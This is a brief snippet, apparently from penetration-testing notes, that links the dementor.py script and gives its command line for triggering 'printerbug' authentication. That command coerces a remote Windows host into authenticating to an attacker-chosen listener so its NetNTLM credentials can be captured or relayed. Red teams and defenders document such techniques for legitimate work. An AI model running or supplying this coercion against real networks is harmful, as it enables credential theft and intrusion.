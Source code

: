 ### Source
https://raw.githubusercontent.com/NotMedic/NetNTLMtoSilverTicket/master/dementor.py  

### Trigger printerbug authentication
```
python3 dementor.py -u <user> -p <password> -d <domain> <lhost> <rhost>
```

